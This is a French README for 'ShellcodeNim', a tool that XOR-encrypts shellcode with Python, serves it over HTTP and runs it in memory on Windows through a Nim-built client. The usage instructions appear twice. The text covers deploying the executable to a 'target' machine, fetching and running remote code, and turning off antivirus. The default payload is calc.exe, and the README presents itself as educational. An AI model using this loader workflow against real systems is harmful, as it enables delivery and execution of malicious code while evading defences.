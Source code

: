 ﻿# ShellcodeNim

Un outil permettant de générer et d'exécuter du shellcode chiffré en utilisant Nim et Python.

## Description

Ce projet combine Python pour la génération et le chiffrement de shellcode avec Nim pour l'exécution côté client. Il permet de :
- Générer du shellcode chiffré via Python
- Servir ce shellcode via un serveur HTTP
- Exécuter le shellcode via un exectuable généré par Nim

## Prérequis

### Côté Serveur
- Python 3.x
- Système d'exploitation compatible (Linux, macOS, Windows)

### Génération de l'executable
- Nim doit être installé sur le système.
- Compiler Nim pour générer l'exécutable pour le faire tourner sur un système windows (See the nim docs to cross-compile for Windows from Linux or macOS using the MinGW-w64 toolchain)

## Installation

### Configuration du Serveur

1. Vérifiez l'installation de Python :
```bash
python3 --version
```

2. Générez le shellcode chiffré :
```bash
python3 shellcode_encrypt.py
```
Un fichier `shellcode_encrypted.bin` sera créé dans le répertoire courant.

3. Démarrez le serveur HTTP :
```bash
python3 -m http.server 8000
```
Le shellcode sera accessible à l'adresse : `http://<IP_SERVEUR>:8000/shellcode_encrypted.bin`

### Compilation de l'executable Client :

1. Vérifiez l'installation de Nim :
```bash
nim --version
```

2. Compilez le client (See the nim docs to cross-compile for Windows from Linux or macOS using the MinGW-w64 toolchain) :
```bash
nim c -d:release exo2bonus.nim
```
Cette commande générera l'exécutable `exo2bonus.exe`.

## Utilisation

1. Sur la machine cible, exécutez le client en spécifiant l'IP du serveur :
```bash
exo2bonus.exe <IP_SERVEUR>
```

Exemple :
```bash
exo2bonus.exe 192.168.1.10
```

Le client va :
1. Télécharger le shellcode chiffré depuis le serveur
2. Le déchiffrer en utilisant la clé XOR intégrée
3. L'exécuter en mémoire

## Déploiement

L'exécutable compilé peut être déployé sur n'importe quelle machine Windows compatible, sans nécessiter l'installation de Nim. Il suffit de transférer le fichier `exo2bonus.exe` sur la machine cible.

## Résolution des problèmes courants

### Erreurs de connexion
- Vérifiez que le serveur HTTP est en cours d'exécution
- Assurez-vous que le port 8000 est accessible
- Vérifiez que l'IP du serveur est correcte

### Erreurs d'exécution
- Vérifiez que la clé XOR est identique entre le serveur (Python) et le client (Nim)
- Désactivez temporairement l'antivirus si nécessaire
- Assurez-vous d'avoir les permissions nécessaires pour l'exécution

## Avertissements

- Le shellcode par défaut exécute calc.exe (à des fins de démonstration)
- Cet outil est destiné uniquement à des fins éducatives et de test
- Certains antivirus peuvent détecter et bloquer l'exécution
- L'utilisation malveillante de cet outil est strictement interdite





## Prérequis

1. Environnement du serveur (Python 3.x)

Python 3.x doit être installé sur le système.

Système d'exploitation : Linux, macOS ou Windows.

2. Génération de l'executable :

Nim doit être installé sur le système.

Compiler Nim pour générer l'exécutable.

## Installation et exécution

1. Configuration et exécution du serveur

Sur le système serveur (Linux/Windows) :

Installer Python 3
Assurez-vous que Python 3.x est installé. Pour vérifier :

python3 --version

## Générer le shellcode
Exécutez le script Python pour générer le shellcode chiffré :

python3 shellcode_encrypt.py

Le fichier shellcode_encrypted.bin sera créé dans le répertoire actuel.

Servir le fichier via HTTP
Utilisez Python pour lancer un serveur HTTP simple sur le port 8000 :

python3 -m http.server 8000

Le shellcode sera accessible via :

http://<IP_DU_SERVEUR>:8000/shellcode_encrypted.bin

Exemple : Si l'IP du serveur est 192.168.1.10 :

http://192.168.1.10:8000/shellcode_encrypted.bin

2. Compilation et exécution du client

Sur la machine qui sert a générer l'excutable, cela peut etre le serveur ou une autre machine :

Installer Nim

Téléchargez et installez Nim depuis nim-lang.org.

Vérifiez l'installation :

nim --version

Compiler le client
Compilez le fichier exo2bonus.nim :

nim c -d:release exo2bonus.nim

Cela génère un exécutable exo2bonus.exe.

## Lancement de l'executable
Lancez le client en spécifiant l'IP du serveur :

exo2bonus.exe <IP_DU_SERVEUR>

Exemple :

exo2bonus.exe 192.168.1.10

Le client va :

Télécharger le shellcode chiffré depuis le serveur.

Le déchiffrer avec la clé XOR intégrée.

L'exécuter en mémoire.

Déploiement de l'exécutable
Une fois compilé, l'exécutable peut être utilisé sur n'importe quelle machine Windows, sans avoir besoin de Nim. Vous pouvez transmettre cet exécutable à une cible distante pour qu'elle l'exécute directement.

## Notes importantes

Le shellcode actuel lance calc.exe (pour des tests). Vous pouvez le modifier dans shellcode_encrypt.py.

Utilisez cet outil uniquement à des fins légales et d'apprentissage.

Sur certains systèmes, un antivirus peut bloquer l'exécution.

## Dépannage

Erreur lors de l'exécution du client

Assurez-vous que le serveur est accessible et fonctionne.

Vérifiez l'URL et le port.

Clé de chiffrement
La clé XOR doit être identique sur le serveur (Python) et le client (Nim).
